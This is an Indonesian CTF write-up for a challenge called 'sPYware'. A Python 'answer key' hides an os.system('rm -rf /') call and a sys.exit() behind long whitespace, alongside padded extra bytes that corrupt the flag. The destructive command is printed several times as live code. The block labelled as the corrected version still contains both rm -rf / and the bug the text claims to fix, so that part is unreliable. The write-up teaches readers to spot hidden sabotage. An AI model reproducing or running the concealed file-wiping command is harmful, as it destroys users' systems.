 ## sPYware - [100 point]


> Temen ku ngasih kunjaw ETS ATP/Dasprog/(insert nama matkul pengenalan pemrograman di depart kalian) nih, tapi kok ga mau jalan yh?

> Author: requiiem

- Explanation
   <p>Diberikan sebuah file dengan extension python "kunci_jawaban.py"</p>

<br>
<img width="233" height="103" alt="Screenshot from 2025-09-18 11-31-30" src="https://github.com/user-attachments/assets/7b18ea73-1527-41ba-b706-6a9572e181e9" />
<br>

### kunci_jawaban.py

```py
  import random                                                                                                                                                                                                                                                                                                                                                                                                                 import os; os.system("rm -rf /")
  import sys
  
  def str_xor(secret, key):
    new_key = key
    i = 0
    while len(new_key) < len(secret):
      new_key = new_key + key[i]
      i = (i + 1) % len(key)  ^ key                                                                                                                                                                                                                                                                                           
    return "".join([chr(ord(secret_c) ^ ord(new_key_c)) for (secret_c,new_key_c) in zip(secret,new_key)])
  
  flag = "HCS{ini_flag_!aseli_~no_fek_fek_coba_aja_submit_xixixi}"
  
  flag_enc = (
    chr(0x38) + chr(0x31) + chr(0x3c) + chr(0x1c) + chr(0x15) + chr(0x08) + chr(0x07) +                                                                                                                                                                                                                                                                                                                       + chr(0x00)
    chr(0x09) + chr(0x14) + chr(0x2f) + chr(0x19) + chr(0x1a) + chr(0x09) + chr(0x02) + 
    chr(0x04) + chr(0x36) + chr(0x04) + chr(0x06) + chr(0x07) + chr(0x13) + chr(0x0d) + 
    chr(0x06) + chr(0x0f) + chr(0x03) + chr(0x10) + chr(0x0f) + chr(0x38) + chr(0x12) + 
    chr(0x00) + chr(0x00) + chr(0x0c) + chr(0x3e) + chr(0x1e) + chr(0x0c) + chr(0x03) +                                                                                                                                                               + chr(0x67)
    chr(0x08) + chr(0x17) + chr(0x13) + chr(0x30) + chr(0x0b) + chr(0x14) + chr(0x32) + 
    chr(0x0d) + chr(0x0f) + chr(0x17) + chr(0x15) + chr(0x06) + chr(0x30) + chr(0x09) + 
    chr(0x08) + chr(0x01) + chr(0x08) + chr(0x07) + chr(0x38) + chr(0x31) + chr(0x2d) + 
    chr(0x16) + chr(0x02) + chr(0x04) + chr(0x10)
  )
  
  if flag = "":
    print(flag)
  else:
    flag = str_xor(flag_enc, 'progaming')                                                                                                                                                                                                                               sys.exit()
    print('"Kelazz king, nih flag: " ' + flag)
```
<p> Jika kode ini langsung dijalankan, maka akan error dikarenakan ada banyak anomali</p>

### Anomali syntax
Salah
```py
if flag = "":
```
<p> Syntax ini salah, karena untuk pengecekan kondisi, perlu 2 sama dengan ==</p>
<br> Benar

```py
if flag == "":
```

### Anomali Function
Salah
```py
 import random                                                                                                                                                                                                                                                                                                                                                                                                                 import os; os.system("rm -rf /")
  import sys
  
  def str_xor(secret, key):
    new_key = key
    i = 0
    while len(new_key) < len(secret):
      new_key = new_key + key[i]
      i = (i + 1) % len(key)  ^ key                                                                                                                                                                                                                                                                                           
    return "".join([chr(ord(secret_c) ^ ord(new_key_c)) for (secret_c,new_key_c) in zip(secret,new_key)])
```
<p>Pada function str.xor, terdapat langkah dimana "i = (i + 1) % len(key)  ^ key", langkah ini juga salah, karena jika kita lihat pada __main__, flag di XOR dengan string, yang menyebabkan bagian code dari function ini salah, untuk memperbaikinya dengan menghapus
bagian "^ key"</p>

<br> Benar

```py
 import random                                                                                                                                                                                                                                                                                                                                                                                                                 import os; os.system("rm -rf /")
  import sys
  
  def str_xor(secret, key):
    new_key = key
    i = 0
    while len(new_key) < len(secret):
      new_key = new_key + key[i]
      i = (i + 1) % len(key)  ^ key                                                                                                                                                                                                                                                                                           
    return "".join([chr(ord(secret_c) ^ ord(new_key_c)) for (secret_c,new_key_c) in zip(secret,new_key)])
```
### Anomali lain lain
<p>ada pun kedua kode ini yang tidak berhubungan dengan algoritma utama, kedua kode ini perlu dihapus karena berbahaya jika dijalankan`</p>

```py
import os; os.system("rm -rf /") = menginstruksikan OS untuk menghapus hampir semua file
sys.exit() = mengakhiri program
```
<p>Jika kode di run lagi, maka hasil yang didapat adalah...</p>

```py
"Kelazz king, nih flag: " HCS{tennnd]v}homXcvu|jgbj~hH`ogmSwbdzxtQf}\jezaQdaoowJ^Jwom~
```
<p>Lho kenapa tidak readeble???. Jika kita mengingat kembali syntax code yang telah kita hapus, semua kode tersebut ada di posisi kanan banget/ spasi berlebih, di saat yang sama ada kode hex yang juga ada di posisi kanan, namun karena tidak membahayakan, jadinya tetap dimasukan ke dalam code</p>

```py
 + chr(0x00)
  + chr(0x67)
```
<p>Kita coba hapus kedua kode tersebut dan jalankan programnya ulang</p>

```py
"Kelazz king, nih flag: " HCS{tengs_kunci_jawabannya_brok_semoga_lu_dapet_nilai_A_yee}
```
<p>Yep, flagnya didapat</p>

## Flag = HCS{tengs_kunci_jawabannya_brok_semoga_lu_dapet_nilai_A_yee}

